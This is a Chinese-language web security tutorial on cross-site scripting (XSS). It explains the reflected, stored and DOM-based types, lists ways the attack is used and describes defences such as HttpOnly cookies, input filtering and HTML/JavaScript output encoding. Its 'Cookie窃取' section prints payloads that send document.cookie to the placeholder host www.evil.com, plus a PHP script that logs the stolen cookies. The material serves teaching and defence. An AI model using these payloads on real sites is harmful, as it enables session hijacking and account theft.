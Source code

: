 ## 简介

XSS攻击，全称Cross Site Script攻击。通常是指黑客通过“HTML”注入篡改了网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。一般分为**反射型XSS**、**存储型XSS**和**基于DOM的XSS**。

1. **反射型XSS**：通常由黑客构造一个恶意的url，通过诱使用户点击实现攻击目的。
2. **存储型XSS**：黑客将恶意代码以博客或者其他形式存储到服务器上，每当其他用户浏览该内容时就会受到攻击。
3. **基于DOM的XSS**：这种XSS并不以“数据是否保存在服务器上”作为分类标准。从效果上，他是一种反射型XSS，但由于其独特的形成原因而单独列出。前端页面提供了用户修改DOM节点的功能，而用户通过输入攻击Payload达到插入脚本的目的，从而可以进一步实施更深入的攻击。

可能产生的后果：Cookie劫持，窃取用户信息，模拟用户身份执行操作（利用AJAX构造HTTP）

## XSS利用姿势

#### 1. Cookie窃取

可以使用下面的姿势将受害者cookie以GET的姿势发送到服务器上：

```js
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

远程服务器可以由配套接收cookie的服务器文件：

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```

#### 2. 构造POST或者GET请求

利用插入在用户页面的XSS Payload，以用户的身份发送GET或者POST请求。Javascript可以发送GET、POST类型的请求，POST类型的请求也可以通过AJAX\(XMLHttpRequest或者ActiveXObject\)的方式发送。

#### 3. 钓鱼

#### 4. 挂马

#### 5. DOS或者DDOS

#### 6. XSS蠕虫

## 攻击姿势

通过XSS攻击，攻击者能够在用户当前浏览的页面中植入恶意脚本，并进而控制用户浏览器。这些脚本可以被称为攻击Payload。

###### 

## XSS防御

### 1. HttpOnly

可以对Cookie设置HttpOnly属性，从而禁止JavaScript对该类型Cookie的访问，从而防止了攻击者利用XSS窃取用户Cookie。

然而除了对Cookie的利用之外，XSS还有很多其他的利用手段。

### 2. 输入检查

XSS Payload一般会包含很多正常用户不会输入的字符，我们可以通过对输入的检查来过滤可能存在的攻击行为。这种检查在前端应该保证输入的格式正确，比如输入日期可以使用相应的表单进行，并且在后端进行逻辑的检查。

针对XSS的检查，可以将用户输入的一些字符如`<`、`>`等进行过滤或者编码，或者对XSS特征的过滤。

### 3. 输出检查

可以通过安全的编码函数，在将文本输出到页面前对文本进行编码，避免XSS攻击发生。

**HTMLEncode**

HTMLEncode将特殊字符转换为其他编码。

```
&: &amp;
<: &lt;
>: &gt;
": &quot;
': &#x27;
/: &#x2f
```

在PHP中，函数`htmlentities()`和`htmlspecialchars()`可以满足需求。

**JavaScriptEncode**

Javascriptencode使用反斜线对特殊字符进行转义，在对抗XSS时，要求输出的变量在引号内部。

```
var x = escapeJavascript($evil);
var y = '"' + escapeJavascript($evil) + '"';

如果输入$evil = "1;alert(2);",则
x = 1;alert(2);
y = "1;alert(2);"
可以看出x不安全的而y是安全的。
除了保持在引号内输出变量的习惯之外，还可以通过更加严格的编码保证安全
通过对数字、字母之外的所有字符采用十六进制编码。
如本例中x经过编码后：
x = 1\x3balert\x282\x29;
```

> 参考：
>
> 1. 《白帽子讲Web安全》
> 2. [CTF-wiki: XSS cross-site scripting attack](https://ctf-wiki.github.io/ctf-wiki/web/xss-zh/)



